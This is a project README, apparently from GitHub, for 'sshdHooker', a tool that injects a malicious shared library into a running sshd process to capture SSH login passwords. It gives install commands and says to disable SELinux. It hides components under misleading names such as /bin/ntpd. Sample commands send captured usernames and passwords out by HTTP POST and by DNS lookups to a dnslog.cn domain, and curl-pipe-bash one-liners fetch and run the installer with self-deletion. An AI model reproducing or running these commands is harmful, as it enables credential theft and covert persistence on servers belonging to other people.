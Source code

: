 # what's this?

SSHD injector, and then you can record passwords or do other operations.

Need to close selinux

English | [中文文档](readme_cn.md)

# how to use

## auto installer
anto installer，Only temporarily supports x64/aarch64

Run:
```
bash install.sh or bash install_aarch64.sh
```

Login with ssh password after running，The password record address is /tmp/.password.txt. default evil so path is /tmp/hello.so，default injector path is/tmp/.i


Other parameters:
```
    -s   Manually specify the sshd process id to be injected (usually it will be obtained automatically)
    -e   custom so file path，default is /tmp/.g.so
    -o   custom injector path，default is /bin/ntpd
    -m   change mode,defulat is 0, mode is 0 is to output to the file，output path is /tmp/.password.txt ，mode is 1 is to command execution mode
    -p   change payload，defsult is /tmp/.password.txt,if mode is 1，then use snsprintf to format the command and execute,Make sure the command contains both %s for format username and password
    -d   anto delete,If the value is anyone, any password is captured and deleted.Otherwise, it will be deleted after matching the entered username.
    -l   Specify the libc path. The default addressing is to find libc-xxxx.so and libc.so.x, but it does not rule out that there will be other strange libc names, so the manual specification function is added. For details, please check /proc/pid Find the libc name in /maps
```
## samples

http send password
```
bash install.sh -p "curl -X POST -d 'username=%s\&password=%s' --connect-timeout 1 -m 1 http://127.0.0.1" -m 1
```

dns send password and self-delete (Please make sure that your command is not blocked, because the actual use of this program is that the system is an online program, if the command is blocked, it will cause the ssh login program to be blocked)
```
bash install.sh -p 'ping `echo %s-%s|xxd -ps`.k9lovy.dnslog.cn -c 1' -m 1 -d anyone
```

Fast remote automatic deployment and self-delete for If any user login succeeds
```
curl -L https://github.com/9bie/sshdHooker/releases/download/1.0.4/sshdHooker.sh | bash -s -- -d anyone
```

Fast remote automatic deployment and used by http send password and self-delete for If any user login succeeds (*Recommend*)
```
curl -L https://github.com/9bie/sshdHooker/releases/download/1.0.4/sshdHooker.sh | bash -s -- -p "curl -X POST -d 'username=%s\&password=%s' --connect-timeout 1 -m 1 http://127.0.0.1" -m 1 -d anyone
```

## debug

use
```

gcc -shared inject_got.c -ldl -fPIC -o test2.so -std=c99

mv test2.so /tmp/hello.so

gcc sshdHooker.c shellcode.s -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```


# todo

 - add x86/arm support
 - bypass SELINUX